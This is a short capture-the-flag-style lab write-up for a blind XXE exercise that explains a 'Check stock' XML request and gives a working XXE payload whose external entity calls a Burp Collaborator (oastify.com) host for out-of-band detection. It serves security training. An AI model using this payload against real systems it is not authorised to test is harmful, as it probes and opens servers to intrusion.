



# Blind XXE with out-of-band interaction
# Objective
This lab has a "Check stock" feature that parses XML input but does not display the result.\
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.\
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

||
|:--:| 
| *Check stock request* |

## Exploitation
The XXE injection (out-of-band request) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<id>.oastify.com"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

||
|:--:| 
| *XXE injection - out-of-band request* |
||
| *XXE injection - out-of-band request* |
